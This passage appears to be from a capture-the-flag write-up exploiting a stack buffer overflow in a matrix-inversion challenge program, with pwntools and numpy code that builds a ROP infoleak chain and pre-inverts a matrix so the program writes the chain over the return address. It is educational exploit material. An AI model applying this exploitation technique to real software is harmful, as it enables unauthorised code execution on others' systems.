 So we have `0x720 - 0x18 == 0x708 == 1800` bytes for the result matrix.
Unfortunately a 16 × 16 matrix needs `16 * 16 * 8 == 2048`. So we have a
stack-based buffer overflow when we input the biggest possible matrix and we
can overwrite the return address. ROP ROP hooray. The
problem is that the overflowed values are the result of the matrix inverse
operation. Turns out this makes things a little tricky. The steps to exploit
this are:

1. Create ROP chain
2. Convert ROP chain to `double` values
3. Put converted ROP chain in the matrix `A`
4. Invert matrix `A` to `A'`
5. Provide inverted matrix `A'` as input
6. Program inverts the matrix `A'` back to `A` and writes ROP chain to the
   stack
7. Win

To achieve 2. we just packed the integer values we needed and unpacked them as
`double`:

```python
def d2i(f):
    return (u64(struct.pack("d", f)))

def i2d(i):
    return (struct.unpack("d", p64(i))[0])
```

So our first try was a simple infoleak ROP chain

```c
puts(GOT.puts);
```

We tried to use the pwntools `ROP` builder, but it often inserted a padding
value, that interfered with matrix inversion. So we built the ROP payload by
hand:

```python
chain0 = ROP(velf)
chain0.raw(poprdiret)
chain0.raw(velf.got['puts'])
chain0.raw(velf.symbols['puts'])
```

Then we put the ROP chain it into the matrix. We used `numpy` to perform the
matrix computations. We first created a 16 × 16 identity matrix. We then
reshaped the matrix to a flat array, to set the ROP chain values on the flat
array (you know less thinking). We know that the buffer starts at `rbp-0x720`.
So the return address is at `0x720//8 + 1 == 229`.

```python
import numpy as np
N = 16
retaddr_A_idx = 229  # == 0x720 // 8 + 1

A = np.eye(N)
Aflat = A.reshape(-1)

pl = chain.chain()

plf = struct.unpack('d' * (len(pl) / 8), pl)
for i, f in enumerate(plf):
    Aflat[retaddr_A_idx + i] = f

A = Aflat.reshape(N, N)
Ai = np.linalg.inv(A)
```
